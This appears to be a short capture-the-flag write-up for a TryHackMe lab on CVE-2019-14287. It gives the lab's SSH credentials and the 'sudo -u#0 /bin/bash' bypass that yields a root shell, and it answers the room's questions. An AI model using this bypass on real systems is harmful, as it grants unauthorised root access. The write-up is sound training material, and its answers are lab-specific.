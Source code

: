 # Tryhackme - Sudo Security Bypass - Linux

- Let's ssh to the machine `ssh -p 2222 tryhackme@10.10.114.224` password is `tryhackme`
- `sudo -l` sends back to us the requirement to exploit `CVE-2019-14287`
![image](https://user-images.githubusercontent.com/96747355/167304720-227d9005-e637-45bf-94d0-d2b9d90aa4b0.png)  
- Following the example shown we could try to use this trick `sudo -u#0 <command>` and put /bin/bash as the command and it works!  
![image](https://user-images.githubusercontent.com/96747355/167304813-e079cfc6-15db-4235-8d77-ccaa6133d07e.png)  

## Questions

- `What command are you allowed to run with sudo?` Answer `/bin/bash`
- `What is the flag in /root/root.txt?` I will let you answer this on your own you will need to `cat /root/root.txt`
